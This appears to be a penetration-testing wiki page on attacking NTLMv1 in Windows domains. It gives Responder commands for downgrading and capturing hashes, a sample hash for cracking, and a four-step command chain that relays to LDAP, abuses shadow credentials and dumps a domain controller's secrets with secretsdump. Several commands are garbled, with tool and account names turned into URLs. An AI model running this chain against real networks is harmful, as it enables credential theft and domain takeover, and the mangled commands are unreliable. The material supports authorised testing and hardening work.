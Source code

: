 # NTLMv1

NT LAN Manager version 1 (NTLMv1) is vulnerable to several attacks and should be disabled in environments whenever possible. All Microsoft operating systems support its successor NT Lan Manager version 2 (NTLMv2) which should be used instead.

A NTLMv1 hash is formatted like the following:

```bash
username::hostname:response:response:challenge -> NTHASH:response
```

### Downgrading

It is possible in environments where NT LAN Manager version 1 is utilized to obtain an NTLMv1 hash from a target computer.

While this was partially described in the [Coercion section](coercing-authentication.md), prior to receiving a callback we need to run Responder, after modifying the 'Challenge' variable to `1122334455667788.` We can then run Responder with the following options:

```bash
# Receive and attempt to crack the hash with crack.sh's rainbow tables
Responder.py -I $interface --lm 

# Attempt to remove ESS/SSP and crack locally or for a fee
Responder.py -I $interface --lm --disable-ess
```

### Cracking NTLMv1

Referencing crack.sh, a NTLMv1 hash with ESS/SSP looks like the following:

```
hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

After obtaining a hash with ESS/SSP, we first need to reformat the obtained hash using EvilMog's [NTLMv1-multi tool](https://github.com/evilmog/ntlmv1-multi) or [assless-chaps](https://github.com/sensepost/assless-chaps) and cracked with a database of NT hashes.&#x20;

{% hint style="warning" %}
If we weren't able to remove the ESS/SSP with Responder then it will no longer be possible to crack with crack.sh’s rainbow tables. Instead, it can be submitted and crack on crack.sh for a fee.
{% endhint %}

### Attacking a Domain Controller

If NTLMv1 is enabled, you can leverage the ability where DC's have the ability to modify their own msDS-KeyCredentialLink attribute. It should be noted this requires two domain controllers to exploit.

```bash
1. ntlmrelayx.py -t ldap://$dc1 -of hashes --shadow-credentials --shadow-target '$dc2' --cert-outfile-path crt --no-validate-privs --remove-mic
2. gettgtpkinit.py -cert-pfx crt.pfx -pfx-pass PFX_PASSWORD http://contoso.com/DC2$ crt.ccache
3. KRB5CCNAME=crt.ccache http://getnthash.py http://contoso.com/DC2\$ -key KEY_FROM_PKINIT
4. secretsdump.py 'http://contoso.com/DC2$'@DC2 -hashes :LMHASH_FROM_GETNTHASH -history
```

### References&#x20;

{% embed url="https://crack.sh/cracking-ntlmv1-w-ess-ssp/" %}

{% embed url="https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/" %}

{% embed url="https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1/" %}

{% embed url="https://twitter.com/godacity_/status/1646282884020580352" %}
